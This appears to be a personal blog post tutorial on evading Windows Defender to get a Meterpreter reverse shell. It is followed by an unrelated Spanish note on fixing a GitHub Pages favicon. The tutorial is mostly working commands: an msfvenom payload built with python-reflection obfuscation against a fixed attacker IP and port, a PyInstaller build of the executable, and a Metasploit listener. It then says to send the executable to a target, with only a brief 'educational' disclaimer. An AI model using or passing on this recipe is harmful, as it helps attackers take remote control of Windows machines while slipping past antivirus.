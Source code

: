 ```yaml
---
title: Windows AV Evasion (msfvenom edition)
image: /assets/img/Anexos/rev_shell_AV_evasion.gif
description: The easiest way to achieve a reverse shell bypassing Windows Defender
categories: [Hacking, Windows]
pin: true
tags: [av-evasion, meterpreter, windows-defender]
---
```




> [!WARNING]  
> The entire article and the information shown is only for educational and informational purposes.

## Introduction

In this post, we'll explore a method to bypass Windows Defender using Python and Meterpreter to achieve a reverse shell.

> Git repo -> https://github.com/juanbelin/Windows-AV-Evasion 

## Step-by-Step Process

### 1. Creating the Payload

First, we'll use `msfvenom` to create the payload as a `.py` file using `python-reflection` for built-in obfuscation:

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py
```

### 2. Adding Required Libraries

We need to add `ctypes` since it's required by `python-reflection`:

```shell
nano reload.py 
```

![](/assets/img/Anexos/Windows_AV.png)


### 3. Generating the Executable

We can create the executable using PyInstaller either from Windows or through `wine`:

Using Wine:
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows:
```powershell
pyinstaller -F hoax_shell.py --onefile
```

### 4. Setting Up the Listener

Create a Metasploit resource file (`test.rc`):

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

Start the listener:
```bash
msfconsole -r test.rc
```

### 5. Execution

Send the `.exe` to the target machine and execute it either through GUI (RDP) or remote command execution.

![](/assets/img/Anexos/rev_shell_AV_evasion.gif)

### Listener Script Usage

The script provides a listener for incoming connections:

```shell
$ ./listiner.sh

[!] Missing parameters.

[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443
```

## Nota: favicon diferente en index.html

Si en https://juanbelin.github.io/main.html ves el favicon correcto pero en la raíz (index.html) aparece el favicon por defecto, sigue estos pasos:

1. Asegúrate de tener el fichero del favicon en tu repo, p.ej. /assets/img/favicon.ico.  
2. Añade este enlace en tu head común (_includes/head.html) o en el <head> de index.html si no usas includes:
   <link rel="icon" href="{{ '/assets/img/favicon.ico' | relative_url }}" type="image/x-icon" />
3. Limpia la caché del navegador (Ctrl+F5) y espera a que GitHub Pages regenere.
